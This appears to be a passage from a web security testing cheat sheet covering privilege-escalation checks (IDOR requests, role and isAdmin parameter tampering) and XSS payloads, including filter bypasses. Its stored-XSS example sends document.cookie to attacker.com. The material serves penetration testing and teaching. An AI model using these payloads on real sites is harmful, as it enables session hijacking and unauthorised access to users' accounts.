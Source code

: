 ## Authorization Testing

### Horizontal Privilege Escalation
```bash
# Access other users' resources
GET /user/1/profile
GET /user/2/profile  # Try accessing other user's profile

# Modify requests
POST /transfer
{
  "from": "user1",
  "to": "attacker",
  "amount": 1000
}
```

### Vertical Privilege Escalation
```bash
# Access admin functions
GET /admin/users
GET /admin/config

# Parameter manipulation
role=user → role=admin
level=1 → level=9
isAdmin=false → isAdmin=true
```

## Input Validation Testing

### XSS Testing
```html
<!-- Reflected XSS -->
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

<!-- Stored XSS -->
<script>
document.write('<img src="http://attacker.com/steal?cookie=' + document.cookie + '">');
</script>

<!-- DOM-based XSS -->
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>

<!-- Filter bypass -->
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
```
